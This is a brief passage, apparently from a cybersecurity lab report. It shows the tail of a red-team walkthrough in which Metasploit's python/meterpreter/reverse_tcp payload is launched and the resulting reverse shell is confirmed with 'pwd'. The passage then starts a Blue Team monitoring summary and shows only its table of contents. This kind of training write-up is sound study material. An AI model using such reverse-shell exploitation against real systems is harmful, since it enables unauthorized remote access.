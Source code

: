    - In another session, I started the exploit:
      - `exploit python/meterpreter/reverse_tcp`
      - `exploit`

    - This gained the reverse TCP handler connection, and I was able to confirm the connection:
      - `pwd`
   
        ![reverse_tcp](P3_Images/P3T1_reverse_tcp_steven.png)

---

# Blue Team: Summary of Operations
---

## Table of Contents
- Network Topology
- Description of Targets
- Monitoring the Targets
- Patterns of Traffic and Behavior
- Suggestions for Going Further
- References

## Network Topology
